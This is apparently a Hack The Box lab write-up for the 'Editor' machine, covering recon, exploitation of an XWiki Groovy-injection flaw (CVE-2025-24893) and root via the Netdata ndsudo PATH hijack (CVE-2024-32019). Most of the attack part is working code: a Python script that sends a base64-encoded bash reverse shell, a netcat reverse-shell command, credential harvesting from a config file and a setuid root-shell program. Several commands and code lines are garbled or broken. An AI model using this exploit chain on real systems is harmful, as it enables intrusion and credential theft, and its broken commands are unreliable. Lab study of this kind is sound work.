

HTB: Editor Machine Writeup
HTB Editor Machine Writeup
Editor machine on the Hackthebox platform.
Reconnaissance
This section details the reconnaissance activities performed on the target system. First resolved host, secondly attack by target dns name privately for IP adrress.
Host Resolution

Nmap scan all port
nmap -p- -sC -sV -A editor.htb -oN nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-14 16:17 +03
Nmap scan report for editor.htb (10.10.XXX.XXX)
Host is up (0.072s latency).
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Editor - SimplistCode Pro
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open http Jetty 10.0.20
| http-cookie-flags:
| /:
| JSESSIONID:
|_ httponly flag not set
| http-title: XWiki - Main - Intro
|_Requested resource was http://editor.htb:8080/xwiki/bin/view/Main/
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/
|_/xwiki/bin/undelete/
|_http-server-header: Jetty(10.0.20)
| http-webdav-scan:
| Server Type: Jetty(10.0.20)
| WebDAV type: Unknown
|_ Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
| http-methods:
|_ Potentially risky methods: PROPFIND LOCK UNLOCK
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 1025/tcp)
HOP RTT ADDRESS
1 97.04 ms 10.10.16.1
2 97.09 ms editor.htb (10.10.XXX.XXX)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.08 seconds- 22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
- 80/tcp open http nginx 1.18.0 (Ubuntu)
- 8080/tcp open http Jetty 10.0.20
Recon ffuf with and robots.txt analyzed
robots.txt
User-agent: *
# Prevent bots from executing all actions except "view" and
# "download" since:
# 1) we don't want bots to execute stuff in the wiki by
# following links! (for example delete pages, add comments,
# etc)
# 2) we don't want bots to consume CPU and memory
# (for example to perform exports)
Disallow: /xwiki/bin/viewattachrev/
Disallow: /xwiki/bin/viewrev/
Disallow: /xwiki/bin/pdf/
Disallow: /xwiki/bin/edit/
Disallow: /xwiki/bin/create/
Disallow: /xwiki/bin/inline/
Disallow: /xwiki/bin/preview/
Disallow: /xwiki/bin/save/
Disallow: /xwiki/bin/saveandcontinue/
Disallow: /xwiki/bin/rollback/
Disallow: /xwiki/bin/deleteversions/
Disallow: /xwiki/bin/cancel/
Disallow: /xwiki/bin/delete/
Disallow: /xwiki/bin/deletespace/
Disallow: /xwiki/bin/undelete/
Disallow: /xwiki/bin/reset/
Disallow: /xwiki/bin/register/
Disallow: /xwiki/bin/propupdate/
Disallow: /xwiki/bin/propadd/
Disallow: /xwiki/bin/propdisable/
Disallow: /xwiki/bin/propenable/
Disallow: /xwiki/bin/propdelete/
Disallow: /xwiki/bin/objectadd/
Disallow: /xwiki/bin/commentadd/
Disallow: /xwiki/bin/commentsave/
Disallow: /xwiki/bin/objectsync/
Disallow: /xwiki/bin/objectremove/
Disallow: /xwiki/bin/attach/
Disallow: /xwiki/bin/upload/
Disallow: /xwiki/bin/temp/
Disallow: /xwiki/bin/downloadrev/
Disallow: /xwiki/bin/dot/
Disallow: /xwiki/bin/delattachment/
Disallow: /xwiki/bin/skin/
Disallow: /xwiki/bin/jsx/
Disallow: /xwiki/bin/ssx/
Disallow: /xwiki/bin/login/
Disallow: /xwiki/bin/loginsubmit/
Disallow: /xwiki/bin/loginerror/
Disallow: /xwiki/bin/logout/
Disallow: /xwiki/bin/lock/
Disallow: /xwiki/bin/redirect/
Disallow: /xwiki/bin/admin/
Disallow: /xwiki/bin/export/
Disallow: /xwiki/bin/import/
Disallow: /xwiki/bin/get/
Disallow: /xwiki/bin/distribution/
Disallow: /xwiki/bin/jcaptcha/
Disallow: /xwiki/bin/unknown/
Disallow: /xwiki/bin/webjars/Weaponization
CVE Identification
- CVE-2025-24893 is a critical remote code execution vulnerability in XWiki versions 13.10.6 and earlier, 14.10.3 and earlier, and 15.4.1 and earlier. This vulnerability allows an attacker to execute arbitrary code on the server hosting the XWiki application by exploiting a flaw in the way user input is handled.
- CVE-2024-32019 is a directory traversal vulnerability in the cgi-bin of certain web servers. This vulnerability allows an attacker to access files and directories that are outside the web root folder, potentially exposing sensitive information.
Exploit Development
A custom script was prepared to exploit the vulnerability:
import base64
import urllib.parse
import subprocess
def main():
url = input("Target URL (e.g. http://10.10.10.10:8080): ")
ip = input("Your IP (for reverse shell): ")
port = input("Port: ")
revshell = f"bash -c 'sh -i >& /dev/tcp/{ip}/{port} 0>&1'"
b64 = base64.b64encode(revshell.encode()).decode()
payload = f"}}}}}}{{{{async async=false}}}}{{{{groovy}}}}\"bash -c {{echo,{b64}}}|{{base64,-d}}|{{bash,-i}}\".execute(){{{{/groovy}}}}{{{{/async}}}}"
encoded = urllib.parse.quote(payload, safe="=,-,")
exploit_url = f"{url}/xwiki/bin/get/Main/SolrSearch?media=rss&text={encoded}"
print("\nExploit URL:\n", exploit_url)
subprocess.run(["curl", "-i", exploit_url])
if __name__ == "__main__":
main()Delivery
The exploit was executed using the following commands:
attack machine:
This section covers the network area, addressing questions such as “How do I send the load? How does the load go and what is the vulnerability that will return the shell to me?”
python3 CVE-2025-2489.py -t http://editor.htb:8080/ -c 'busybox nc 10.10.14.45 4444 -e nc -lvnp 1337User Enumeration and SSH Login
We maybe has able to find the hibernate.cfg.xml file which contains database credentials. Using these credentials, The following commands were used for user enumeration and SSH login: For more details, see this reference.
xwiki@editor:$ find / -name hibernate.cfg.xml 2>1&/dev/null
find / -name hibernate.cfg.xml 2>1&/dev/null
[1] 372506
bash: /dev/null: Permission denied
xwiki@editor:$ /etc/xwiki/hibernate.cfg.xml
/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml
/usr/share/xwiki/templates/mysql/hibernate.cfg.xml
[1]+ Exit 1 find / -name hibernate.cfg.xml 2> 1
xwiki@editor:$ cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
<lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
<property name="hibernate.connection.password">PASSWORD</property>
<property name="hibernate.connection.password">xwiki</property>
<property name="hibernate.connection.password">xwiki</property>
<property name="hibernate.connection.password"></property>
<property name="hibernate.connection.password">xwiki</property>
<property name="hibernate.connection.password">xwiki</property>
<property name="hibernate.connection.password"></property>Then login with ssh
ssh oliver@editor.htb -password 'PASSWORD' (found in hibernate.cfg.xml)Privileged Escalation
A SUID binary was identified on the target system:
find / -type f -perm -4000 -user root 2>/dev/nullThe binary was exploited to gain root privileges:
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
***************CVE-2024-32019 EXPLOIT********************
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
***************CVE-2024-32019 EXPLOIT********************
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1Exploit development for target machine running
We writing a simple c coding for the nvme exploit. We must writing and compiling on the attacker machine.
#include <unistd.h>
int main() {
setuid(0); setgid(0);
execl("/bin/bash", "bash", NULL);
return 0;Exploitation (must be run as user oliver)
this section first nc command to listen the incoming connection, then compile the c code and transfer it to the target machine. After that, we ssh to the target machine and give execute permission to the file. Finally, we add /tmp directory to the PATH environment variable and run the exploit to get root shell.
nc -lvnp 4444
gcc poc.c -o nvme
scp nvme oliver@editor.htb:/tmp
ssh oliver@editor.htb
chmod +x /tmp/nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-listRemediation
CVE-2024-32019
- Update the relevant software to the latest version.
- Apply security patches regularly.
- Change default or weak credentials.
- Strengthen access controls to prevent unauthorized access.
- Review firewall (FW) rules and allow only necessary ports.
- This vulnerability can be detected in both application logs and firewall logs in Splunk. Monitor especially for unusual traffic or unexpected access attempts.
CVE-2025-24893
- Use the latest version of the affected application.
- Apply security patches regularly.
- Change default or weak credentials.
- Strengthen access controls to prevent unauthorized access.
- Review firewall (FW) rules and allow only necessary ports.
- This vulnerability can be detected in application logs and Linux system logs in Splunk. Monitor especially for failed login attempts and unexpected process activities.